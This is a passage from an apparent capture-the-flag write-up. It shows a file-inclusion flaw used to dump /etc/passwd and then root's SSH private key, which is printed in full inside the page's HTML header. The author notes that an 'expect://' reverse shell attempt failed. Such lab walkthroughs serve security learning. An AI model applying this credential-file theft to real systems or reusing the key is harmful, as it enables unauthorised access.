 ```html
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
chiv:x:1000:1000:chiv:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```

As you can see, we can able to read the local file. If we try to gain reverse shell via ‘expect://' wrapper it would not work and it gives you an error, I guess it is not enabled. So we have to read SSH keys of root.

![Screen Shot 2021-06-04 at 01.32.41.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/8AD334C8-BFCD-4AA8-9412-E72695E555A0/E39B2F57-E906-45A1-94AB-5391F2542F19_2/Screen%20Shot%202021-06-04%20at%2001.32.41.png)

Forward the request and check the browser.

```html
<div class="wrap cf">
    <h1 class="projTitle" id="welcome">Welcome, -----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAl/dn2XpJQuIw49CVNdAgdeO5WZ47tZDYZ+7tXD8Q5tfqmyxq
gsgQskHffuzjq8v/q4aBfm6lQSn47G8foq0gQ1DvuZkWFAATvTjliXuE7gLcItPt
iFtbg7RQV/xaTwAmdRfRLb7x63TG6mZDRkvFvGfihWqAnkuJNqoVJclgIXLuwUvk
4d3/Vo/MdEUb02ha7Rw9oHSYKR4pIgv4mDwxGGL+fwo6hFNCZ+YK96wMlJc3vo5Z
EgkdKXy3RnLKvtxjpIlfmAZGu0T+RX1GlmoPDqoDWRbWU+wdbES35vqxH0uM5WUh
vPt5ZDGiKID4Tft57udHxPiSD6YBhLT5ooHfFQIDAQABAoIBAFxB9Acg6Vc0kO/N
krhfyUUo4j7ZBHDfJbI7aFinZPBwRtq75VHOeexud2vMDxAeQfJ1Lyp9q8/a1mdb
sz4EkuCrQ05O9QthXJp0700+8t24WMLAHKW6qN1VW61+46iwc6iEtBZspNwIQjbN
rKwBlmMiQnAyzzDKtNu9+Ca/kZ/cAjLpz3m1NW7X//rcDL8kBGs8RfuHqz/R4R7e
HtCvxuXOFnyo/I+A3j1dPHoc5UH56g1W82NwTCbtCfMfeUsUOByLcg3yEypClO/M
s7pWQ1e4m27/NmU7R/cslc03YFQxow+CIbdd59dBKTZKErdiMd49WiZSxizL7Rdt
WBTACsUCgYEAyU9azupb71YnGQVLpdTOzoTD6ReZlbDGeqz4BD5xzbkDj7MOT5Dy
R335NRBf7EJC0ODXNVSY+4vEXqMTx9eTxpMtsP6u0WvIYwy9C7K/wCz+WXNV0zc0
kcSQH/Yfkd2jADkMxHXkz9THXCChOfEt7IUmNSM2VBKb1xBMkuLXQbMCgYEAwUBS
FhRNrIB3os7qYayE+XrGVdx/KXcKva6zn20YktWYlH2HLfXcFQQdr30cPxxBSriS
BAKYcdFXSUQDPJ1/qE21OvDLmJFu4Xs7ZdGG8o5v8JmF6TLTwi0Vi45g38DJagEl
w42zV3vV7bsAhQsMvd3igLEoDFt34jO9nQv9KBcCgYEAk8eLVAY7AxFtljKK++ui
/Xv9DWnjtz2UFo5Pa14j0O+Wq7C4OrSfBth1Tvz8TcW+ovPLSD0YKODLgOWaKcQZ
mVaF3j64OsgyzHOXe7T2iq788NF4GZuXHcL8Qlo9hqj7dbhrpPUeyWrcBsd1U8G3
AsAj8jItOb6HZHN0owefGX0CgYAICQmgu2VjZ9ARp/Lc7tR0nyNCDLII4ldC/dGg
LmQYLuNyQSnuwktNYGdvlY8oHJ+mYLhJjGYUTXUIqdhMm+vj7p87fSmqBVoL7BjT
Kfwnd761zVxhDuj5KPC9ZcUnaJe3XabZU7oCSDbj9KOX5Ja6ClDRswwMP31jnW0j
64yyLwKBgBkRFxxuGkB9IMmcN19zMWA6akE0/jD6c/51IRx9lyeOmWFPqitNenWK
teYjUjFTLgoi8MSTPAVufpdQV4128HuMbMLVpHYOVWKH/noFetpTE2uFStsNrMD8
vEgG/fMJ9XmHVsPePviZBfrnszhP77sgCXX8Grhx9GlVMUdxeo+j
-----END RSA PRIVATE KEY-----
</h1>
```
